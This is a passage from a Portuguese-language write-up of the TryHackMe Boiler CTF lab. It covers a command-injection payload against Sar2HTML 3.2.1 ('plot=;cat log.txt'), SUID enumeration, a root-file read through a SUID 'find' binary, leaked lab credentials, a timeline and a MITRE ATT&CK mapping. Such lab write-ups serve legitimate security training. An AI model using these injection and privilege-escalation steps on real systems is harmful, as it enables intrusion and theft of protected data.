A mesma ação, sem `sudo`, teve sucesso — graças ao bit SUID identificado na Fase 10:

```bash
find /root/root.txt -exec cat {} \;
```



```
It wasn't that hard, was it?
```

**Flag de root: `It wasn't that hard, was it?`**

O SUID em `/usr/bin/find`, sem exigir `sudo`, permitiu que a ação `-exec cat {}` fosse executada com privilégios de root, lendo diretamente o conteúdo do arquivo protegido `/root/root.txt`.

---

## ⛓ Linha do Tempo do Comprometimento

```
FASE 1 — RECONHECIMENTO (Nmap)
    21/FTP (anon) · 80/HTTP (Joomla) · 10000/Webmin · 55007/SSH
    ↓
FASE 2 — ENUMERAÇÃO WEB (Gobuster)
    /joomla/_database, _archive, _files, _test, administrator...
    ↓
FASE 3-5 — RABBIT HOLES
    robots.txt → ASCII dec → Base64 → MD5 → "kidding"
    _database → Cifra de César → "Just missing around."
    _files → Base64 duplo → "Whopsie daisy"
    FTP anônimo → .info.txt → ROT13 → "Enumeration is the key!"
    ↓
FASE 6 — VULNERABILIDADE REAL: /joomla/_test/ = Sar2HTML 3.2.1
    Exploit-DB EDB-47204 — RCE não autenticado via parâmetro "plot"
    ↓
FASE 7 — EXPLORAÇÃO DO RCE
    index.php?plot=;cat log.txt → log revela usuário "basterd" + credencial
    ↓
FASE 8 — ACESSO SSH (basterd:55007)
    cat backup.sh → usuário "stoner" + senha comentada "superduperp@$$no1knows"
    ↓
FASE 9 — MOVIMENTO LATERAL (basterd → stoner)
    su stoner → cat .secret
    USER FLAG: "You made it till here, well done." ✓
    ↓
FASE 10 — ENUMERAÇÃO SUID
    find / -perm -u=s 2>/dev/null → /usr/bin/find (SUID)
    ↓
FASE 11 — ESCALAÇÃO DE PRIVILÉGIOS
    find /root/root.txt -exec cat {} \; (sem sudo, via SUID)
    ROOT FLAG: "It wasn't that hard, was it?" ✓
    ↓
COMPROMETIMENTO CONCLUÍDO
```

---

## 🗺 Mapeamento Investigativo

| Fase | Ferramenta/Técnica | Achado |
|------|--------------------|--------|
| Reconhecimento | Nmap 7.99 | FTP anônimo, Joomla (80), Webmin (10000), SSH em porta não padrão (55007) |
| Enumeração Web | Gobuster 3.8.2 | `/joomla/_database`, `_files`, `_test` e diretórios padrão do Joomla |
| Rabbit Holes | Decodificação manual (CyberChef/ChatGPT/CrackStation) | Quatro trilhas falsas confirmadas: "kidding", "Just missing around.", "Whopsie daisy", "Enumeration is the key!" |
| Identificação da Falha | Exploit-DB (EDB-47204) | Sar2HTML 3.2.1 vulnerável a RCE não autenticado em `/joomla/_test/` |
| Exploração | RCE via parâmetro `plot` | Vazamento de log contendo credencial associada ao usuário `basterd` |
| Acesso Inicial | SSH (porta 55007) | Login como `basterd`; script `backup.sh` revela senha de `stoner` em comentário |
| Movimento Lateral | `su stoner` | Acesso à conta `stoner`; flag de usuário em `.secret` |
| Escalação de Privilégios | SUID em `/usr/bin/find` | Leitura de `/root/root.txt` sem necessidade de `sudo` |

---

## 🚨 Artefatos e Indicadores Identificados

| Tipo | Indicador | Contexto |
|------|-----------|----------|
| Alvo | `10.67.158.226` (`Vulnerable`) | Máquina TryHackMe — Boiler CTF |
| Serviços expostos | `21/FTP` (anônimo) · `80/HTTP` (Joomla) · `10000/Webmin` · `55007/SSH` | Superfície de ataque total |
| Vulnerabilidade Crítica | Sar2HTML 3.2.1 — RCE não autenticado (EDB-47204) | `/joomla/_test/index.php?plot=;<comando>` |
| Vazamento de Credencial 1 | `basterd` (SSH) | Obtido via leitura de log do sistema pelo RCE |
| Vazamento de Credencial 2 | `stoner` / `superduperp@$$no1knows` | Comentário no script `backup.sh` do usuário `basterd` |
| Vetor de Escalação | `/usr/bin/find` com bit SUID | Leitura de `/root/root.txt` com privilégios de root sem `sudo` |
| Flag de Usuário | `You made it till here, well done.` | `/home/stoner/.secret` |
| Flag de Root | `It wasn't that hard, was it?` | `/root/root.txt`, lido via SUID do `find` |
| Técnica (MITRE ATT&CK) | `T1595.002` | Vulnerability Scanning (Nmap) |
| Técnica (MITRE ATT&CK) | `T1083` | File and Directory Discovery (Gobuster, FTP anônimo) |
| Técnica (MITRE ATT&CK) | `T1190` | Exploit Public-Facing Application (Sar2HTML RCE) |
| Técnica (MITRE ATT&CK) | `T1552.001` | Unsecured Credentials: Credentials In Files (`backup.sh`, log do sistema) |
| Técnica (MITRE ATT&CK) | `T1078` | Valid Accounts (uso das credenciais vazadas de `basterd` e `stoner`) |
| Técnica (MITRE ATT&CK) | `T1548.001` | Abuse Elevation Control Mechanism: Setuid and Setgid (binário `find` SUID) |

---

## ✅ Resumo das Flags

| # | Flag | Valor | Localização |
|---|------|-------|-------------|
| 🚩 Flag de Usuário | `.secret` | `You made it till here, well done.` | `/home/stoner/.secret`, acessado após movimento lateral de `basterd` para `stoner` |
| 🚩 Flag de Root | `root.txt` | `It wasn't that hard, was it?` | `/root/root.txt`, lido via SUID do binário `/usr/bin/find` |

---

## 📚 Referências

- [TryHackMe — Boiler CTF](https://tryhackme.com/room/boilerctf1)
- [Exploit-DB 47204 — Sar2HTML 3.2.1 Remote Command Execution](https://www.exploit-db.com/exploits/47204)
- [GTFOBins — find](https://gtfobins.github.io/gtfobins/find/)
- [MITRE ATT&CK T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
- [MITRE ATT&CK T1552.001 — Credentials In Files](https://attack.mitre.org/techniques/T1552/001/)
- [MITRE ATT&CK T1548.001 — Setuid and Setgid](https://attack.mitre.org/techniques/T1548/001/)
- [CyberChef](https://gchq.github.io/CyberChef/)
- [CrackStation](https://crackstation.net/)

---
